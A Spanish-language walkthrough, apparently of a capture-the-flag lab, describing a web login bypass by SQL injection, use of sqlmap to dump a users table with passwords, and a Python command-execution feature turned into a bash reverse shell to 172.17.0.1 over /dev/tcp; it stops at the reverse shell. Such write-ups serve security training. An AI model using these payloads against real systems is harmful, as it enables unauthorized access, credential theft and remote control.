 ![imagen](https://github.com/user-attachments/assets/1f6fa792-d911-43a0-8615-a67b08d26439)

Al pulsar me redirecciona al directorio `/login_page/` en donde encontramos un formulario para inciar sesión. Probé las típicas credenciales pero no servían.

![imagen](https://github.com/user-attachments/assets/cd7fcb27-d853-4969-b866-f13e0abe59ad)

Quise probar una inyección básica de sql y funcionó, pude iniciar sesión.
```sqli
admin' or '1'='1'-- -
```

![imagen](https://github.com/user-attachments/assets/1a9dc8a5-1081-484c-b9c3-00bd2bf7bbb3)

![imagen](https://github.com/user-attachments/assets/e0dcd49f-2652-4d8d-bfbf-6854532172c3)

Voy a usar **sqlmap** para dumpear los datos de los usuarios y las contraseñas. Primero con burpsuite nos descargamos la petición.

![imagen](https://github.com/user-attachments/assets/94c96e29-41ed-43a7-be9b-89a5b425943d)


```bash
sqlmap -r req --dbs --batch
```

![imagen](https://github.com/user-attachments/assets/7bdb0b3d-d75e-49e4-8747-ee6aeb621417)

Ahora que sabemos las bases de datos, veremos la información que existe dentro de users.

```bash
sqlmap -r req --dbs --batch -D 'users' --dump
```

![imagen](https://github.com/user-attachments/assets/24c0d272-b631-4894-a407-7726ab806190)

Pues observamos que dentro de la base de datos `users` existen tres usuarios con sus contraseñas.
Probamos las credenciales en la web y la única diferente es la del usuario `joe`, con este usuario autenticado podremos ejeuctar comandos con python.

![imagen](https://github.com/user-attachments/assets/5dfb52a8-968f-4dfd-9115-1e4ed285edfa)

Hago una prueba escribiendo lo siguiente y me lista los archivos de la ruta en la que estoy actualmente.

```python
import os
os.system("ls")
```

![imagen](https://github.com/user-attachments/assets/3a8319fe-7606-4883-93f9-4f13da7ab9b6)

Pues efectivamente ejecuta comandos, así que podremos ejecutarnos una reverse shell con el siguiente comando:

```python
import os
os.system("bash -c 'exec bash -i &>/dev/tcp/172.17.0.1/443 <&1'")
```
